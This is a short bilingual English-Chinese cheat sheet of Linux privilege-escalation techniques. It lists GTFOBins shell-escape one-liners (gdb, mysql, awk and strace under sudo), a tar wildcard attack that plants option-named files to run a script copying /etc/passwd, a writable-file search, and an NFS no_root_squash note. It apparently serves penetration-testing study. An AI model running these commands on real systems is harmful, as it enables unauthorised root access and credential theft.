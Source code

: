 
#### GTFOBins

https://gtfobins.github.io/

```
# GTFOBins is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.
# GTFOBins是Unix二进制文件的精选列表，可被攻击者利用来绕过本地安全限制。

# 如
gdb -nx -ex '!sh' -ex quit
sudo mysql -e '! /bin/sh'
strace -o /dev/null /bin/sh
sudo awk 'BEGIN {system("/bin/sh")}'
```


#### Wildcard

通配符

[localh0t/wildpwn: unix wildcard attacks](https://github.com/localh0t/wildpwn)
```
# 
By using tar with –checkpoint-action options, a specified action can be used after a checkpoint.
# This action could be a malicious shell script that could be used for executing arbitrary commands under the user who starts tar.
# “Tricking” root to use the specific options is quite easy, and that's where the wildcard comes in handy.


# create file for exploitation
touch -- "--checkpoint=1"
touch -- "--checkpoint-action=exec=sh shell.sh"
echo "#\!/bin/bash\ncat /etc/passwd > /tmp/flag\nchmod 777 /tmp/flag" > shell.sh

# vulnerable script
tar cf archive.tar *
```


#### Writable files

可写文件
```
find / -writable ! -user \`whoami\` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
```

#### NFS Root Squashing

When **no_root_squash** appears in `/etc/exports`, the folder is shareable and a remote user can mount it.

当no_root_squash出现在`/etc/exports`中时，该文件夹是可共享的，远程用户可以挂载它
